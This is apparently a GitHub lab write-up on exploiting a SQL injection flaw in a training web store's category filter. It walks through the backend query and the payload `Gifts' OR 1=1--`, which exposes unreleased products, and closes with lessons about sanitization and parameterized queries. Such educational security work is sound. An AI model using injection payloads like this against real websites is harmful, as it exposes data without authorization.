


# Lab: SQL Injection in Product Category Filter

## Lab Description
This lab contains a SQL injection vulnerability in the product category filter of a web store application. When a user selects a product category, the backend runs a SQL query similar to:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1;
````

The goal is to exploit the SQL injection vulnerability to make the application display one or more **unreleased products** (i.e., bypass the `released = 1` filter).


## Objective

* Identify and exploit the SQL injection vulnerability in the `category` parameter.
* Modify the SQL query logic to return products regardless of the `released` status.
* Retrieve and display unreleased products on the page.


## Environment Setup

* Target URL: `https://<lab-url>/filter?category=...`
* Tools used:

  * Browser (Chrome/Firefox)
  * Burp Suite (for intercepting and testing payloads)


## Step-by-Step Exploit Walkthrough

### 1. Initial Recon

* Access the product category filter and observe the URL and parameters.
* Example URL when filtering gifts:

```
https://<lab-url>/filter?category=Gifts
```
---

### 2. Understanding the Backend Query

* From lab description and behavior, backend query resembles:

```sql
SELECT * FROM products WHERE category = '<user-input>' AND released = 1;
```
---

### 3. Injection Point and Payload Design

* Since the input is directly placed inside single quotes, attempt to break out of the string with a `'` and inject SQL logic.
* Payload used:

```
Gifts' OR 1=1--
```

This transforms the query to:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1;
```

Due to the comment `--`, the `AND released = 1` part is ignored, and the query returns all products, including unreleased ones.

---

### 4. Executing the Attack

* Modify the URL or intercept the request with Burp Suite.
* Change `category=Gifts` to `category=Gifts' OR 1=1--`.
* Submit the request.

---

### 5. Results and Verification

* The page now displays products beyond the original category and includes unreleased products.
* Verify the presence of products that should have been filtered out.

---

## Payloads Used

| Description            | Payload           |
| ---------------------- | ----------------- |
| Bypass category filter | `Gifts' OR 1=1--` |

---

## Lessons Learned

* Injection in filter parameters can lead to unauthorized data exposure.
* Using `' OR 1=1--` is a classic SQL injection technique to bypass filters.
* Proper input sanitization or parameterized queries are critical to prevent this.

---

## Screenshots and Images

1. **Before Injection:**
   Screenshot of the filtered product page using a normal category (e.g., "Gifts") showing only released products.
   

2. **After Injection:**
   Screenshot of the product page after injection showing unreleased products visible.
   


---

## Conclusion

This lab highlights the importance of validating and sanitizing user inputs to prevent SQL injection attacks that can bypass important filters and expose sensitive data.


